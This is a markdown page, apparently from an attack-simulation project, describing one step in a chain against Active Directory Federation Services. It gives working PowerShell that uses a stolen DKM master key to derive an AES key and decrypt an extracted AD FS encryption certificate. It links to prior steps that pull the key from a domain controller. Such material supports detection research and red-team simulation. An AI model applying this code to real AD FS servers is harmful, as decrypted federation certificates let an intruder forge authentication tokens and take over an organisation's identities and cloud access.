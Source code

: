 # Decrypt Active Directory Federation Services (AD FS) Encryption Certificate

After [extracting the AD FS encryption certificate](extractADFSEncryptionCertificate.md) and [obtaining the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md), we can use the master key value to derive a symmetric key and decrypt AD FS certificates (Token signing and Encryption).

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we exported AD FS certificates (token signing and encryption) and [obtained the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md) from to go through the simulation steps.
    * [AD FS DKM Master Key](exportADFSDKMMasterKeyFromDC.md)
        * Use the output from this step and pass it to the PowerShell snippet below as the variable `$key`.
    * AD FS encryption certificate (Encrypted format)
        * After [extracting the AD FS encryption certificate](extractADFSEncryptionCertificate.md), the output is saved to the variable `$encEncryptionPfx`. You can use it in the PowerShell snippets below.

## Decrypt Encryption Certificate

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$encryptionPfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```

## Output

Use the variable `$encryptionPfx` (cipher text) in the next step to [export the AD FS encryption certificate as a PFX file](exportADFSEncryptionCertAsPfxFile.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)